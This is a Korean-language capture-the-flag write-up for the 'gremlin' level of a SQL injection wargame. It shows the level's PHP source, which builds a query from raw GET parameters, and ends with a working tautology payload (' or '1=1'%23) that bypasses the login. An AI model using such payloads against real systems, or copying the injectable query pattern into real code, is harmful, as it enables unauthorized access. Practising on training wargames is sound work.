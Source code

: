 # Los.eagle-jump.org
* 1번 문제 [gremlin]
```javascript
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
쿼리문
```
query : select id from prob_gremlin where id='' and pw=''
```


* Solution [쿼리를 이용해 로그인 시도]

1. 파라미터를 이용해 쿼리문을 작성
https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=

2. id=''안에 무엇이 들어가든 상관없습니다

3. https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=riko' or '1=1'#

4. or을 이용해여 참값을 반환, 코드를 주석으로 만들기 위해 뒤에 # 추가

5. 3번 URL을 그대로 입력시 로그인은 실패

6. URL decode을 이용하여 #을 변환 결과는 %23

7. 정답: https://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=riko' or '1=1'%23
